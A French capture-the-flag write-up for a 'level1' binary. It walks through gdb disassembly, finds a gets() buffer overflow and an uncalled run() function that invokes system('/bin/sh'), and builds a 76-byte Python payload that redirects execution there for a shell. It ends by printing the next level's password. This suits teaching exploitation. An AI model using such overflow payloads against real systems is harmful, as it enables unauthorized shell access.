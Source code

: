 #level1

On a un exécutable qui s'appelle level1.

Il attend un input et ensuite s'arretera.

Regardons un peu plus en détail.

$ gdb level1

> disas level1

Dump of assembler code for function main:
0x08048480 <+0>: push %ebp
0x08048481 <+1>: mov %esp,%ebp
0x08048483 <+3>: and $0xfffffff0,%esp
0x08048486 <+6>: sub $0x50,%esp
0x08048489 <+9>: lea 0x10(%esp),%eax
0x0804848d <+13>: mov %eax,(%esp)
0x08048490 <+16>: call 0x8048340 <gets@plt>
0x08048495 <+21>: leave
0x08048496 <+22>: ret
End of assembler dump.

On voit qu'il appelle gets() puis qu'il s'arrête.

En regardant la liste des fonctions, on remarque qu'il y a une fonction qui s'appelle run mais qui n'est pas appelée.

(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f8 \_init
0x08048340 gets
0x08048340 gets@plt
0x08048350 fwrite
0x08048350 fwrite@plt
0x08048360 system
0x08048360 system@plt
0x08048370 **gmon_start**
0x08048370 **gmon_start**@plt
0x08048380 **libc_start_main
0x08048380 **libc_start_main@plt
0x08048390 \_start
0x080483c0 **do_global_dtors_aux
0x08048420 frame_dummy
0x08048444 run
0x08048480 main
0x080484a0 **libc_csu_init
0x08048510 **libc_csu_fini
0x08048512 **i686.get_pc_thunk.bx
0x08048520 \_\_do_global_ctors_aux
0x0804854c \_fini

On desassembre la fonction run:

> disas run
> Dump of assembler code for function run:
> 0x08048444 <+0>: push %ebp
> 0x08048445 <+1>: mov %esp,%ebp
> 0x08048447 <+3>: sub $0x18,%esp
> 0x0804844a <+6>: mov 0x80497c0,%eax
> 0x0804844f <+11>: mov %eax,%edx
> 0x08048451 <+13>: mov $0x8048570,%eax
> 0x08048456 <+18>: mov %edx,0xc(%esp)
> 0x0804845a <+22>: movl $0x13,0x8(%esp)
> 0x08048462 <+30>: movl $0x1,0x4(%esp)
> 0x0804846a <+38>: mov %eax,(%esp)
> 0x0804846d <+41>: call 0x8048350 <fwrite@plt>
> 0x08048472 <+46>: movl $0x8048584,(%esp)
> 0x08048479 <+53>: call 0x8048360 <system@plt>
> 0x0804847e <+58>: leave
> 0x0804847f <+59>: ret
> End of assembler dump.

On voit un appel à system().

Regardons l'argument de la fonction system().

> x/s 0x8048584
> 0x8048584: "/bin/sh"

On va essayer de lancer run pour utiliser system().

On remarque après plusieurs tests que le programme segfaulte à partir de plus de 76 charactères.

$ python -c "print 'A'\*80" | ./level1
Segmentation fault (core dumped)

On va donc exploiter level1 avec un buffer overflow et ainsi rediriger le programme vers la fonction run.

$ python -c "print 'A'\*76 + '\x44\x84\x04\x08'" > /tmp/payload1

$ cat /tmp/payload1 - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
